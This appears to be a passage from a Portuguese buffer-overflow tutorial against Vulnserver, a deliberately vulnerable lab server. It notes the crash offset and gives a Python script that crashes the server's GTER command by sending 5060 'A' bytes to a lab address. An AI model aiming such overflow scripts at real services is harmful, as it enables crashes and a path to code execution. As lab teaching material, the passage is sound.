 Podemos observar que o buffer estouruou com 5060 bytes, sendo que o nosso buffer inicia com “/.:/”.

## EXPLORAÇÃO

Agora que sabemos que o programa sofreu um crash com 5061 bytes, já incluindo o comando “GTER /.:/”, podemos iniciar o esboço do exploit.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# payload a ser enviado
offset = 5060

payload = b"GTER /.:/" # funcao inicial
payload += b"A" * offset 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado!")
```

Precisamos iniciar o vulnerver, mas agora com o Immunity Debbuger e rodar nosso script.
